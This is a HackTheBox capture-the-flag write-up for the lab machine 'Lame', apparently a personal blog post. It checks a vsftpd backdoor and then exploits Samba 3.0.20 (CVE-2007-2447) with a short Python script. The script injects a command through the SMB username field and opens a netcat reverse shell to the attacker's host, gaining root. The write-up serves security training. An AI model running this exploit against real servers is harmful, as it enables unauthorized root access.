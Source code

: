 ```yaml
---
layout: post
title: HackTheBox&#58; Lame
description: Writeup for HTB box Lame.
category: HackTheBox
---
```


### Introduction

Lame is a Linux box, difficulty Easy on HTB.
It's the first box ever created on HTB and it's very easy (just like the name suggests)

### Initial Scan

![Lame-1](/resources/Lame-1.png)

### FTP

We see vsftpd 2.3.4 running on the server.
It has [a well-known backdoor](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html).
However a quick test using telnet shows no result, which means the server is likely not vulnerable.
Anonymous login also shows us no files.

### Samba

From nmap results, we know that the machine is running Samba version 3.0.20.
searchsploit gets a hit with 1 Metasploit module: [CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447).

The vulnerability affects all versions from 3.0.0 to 3.0.25rc3.
Since we are trying to avoid using Metasploit, we can quickly write an exploit script based on the Ruby script.

```Python
from smb.SMBConnection import SMBConnection

LHOST, LPORT = "10.10.14.25", 1337
RHOST, RPORT = "10.10.10.3", 139

def main():
    payload = "nc -e /bin/sh {} {}".format(LHOST, LPORT)
    username = "/-`nohup {}`".format(payload)
    try:
        smb = SMBConnection(username, "", "", "", "")
        smb.connect(RHOST, RPORT)
        print "[+] Payload sent."
    except Exception as e:
        print "[-] Something went wrong."
        print "[-] Error: {}".format(e)

if __name__ == "__main__":
    main()
```

![Lame-2](/resources/Lame-2.png)

We get reverse shell as root immediately and we can read both user.txt and root.txt.
